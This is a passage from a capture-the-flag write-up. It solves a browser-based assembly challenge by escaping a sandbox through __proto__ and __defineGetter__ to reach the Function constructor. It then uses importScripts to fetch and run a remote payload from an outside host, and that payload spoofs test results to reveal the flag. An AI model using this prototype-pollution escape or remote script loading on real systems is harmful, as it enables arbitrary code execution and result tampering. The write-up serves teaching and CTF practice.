 At this point we would have to make this code both small enough to make <400 bytes
encoded, and also make it play nicly with the parser. I decided not to do this, and
instead use a nice feature of the webworker.

```javascript
self.importScripts('http://itszn.com/g2/pl.js')
```

`importScripts` will synchronously load and run a javascript file, which is nice, because
we can make our payload as long as we want now.

Here is the final payload (remember the `*` syntax is something I modified myself to set
the pointer bit):

```assembly
.data
$a string self.importScripts('http://itszn.com/g2/pl.js')/*
$b */

.code
&main:
mov int 500 *int 2 ; move the '/*' to a far away index
mov int 0 *int 1 ; move the payload to index 0
mov string __proto__ *string __defineGetter__ ; Make memory a function __proto__
mov int 2 * string constructor ; Store the function constructor
get string __proto__ string constructor ; Restore memory's __proto__ to an array
mov int 2 *int 2 ; Call the function constructor with our payload (as memory.toString())
```

pl.js:

```javascript
for(var i=0; i<128; i++) {
    var c = String.fromCharCode(i);
    postMessage({
        answer: c,
        test: { toString:'asdf' },
        counters: { cycles: 0 }
    })
}
```

Running this with the 'Guess The Flag' test causes all the test cases to pass, and have it
print the flag.

![Getting the flag locally]({{ site.baseurl }}/assets/WASM_flag_local.png)

Now we just need to submit it so it will run on the remote server.

It took a few tries, because I kept getting 500 errors.  (Although I knew it was working
because I was getting requests for the payload file). Finally it went though:

![Getting the flag on the server]({{ site.baseurl }}/assets/WASM_flag_server.png)

The final flag is `CTF{_r3m0v3_th3_c0mm4s_plz_kthxbye_}`
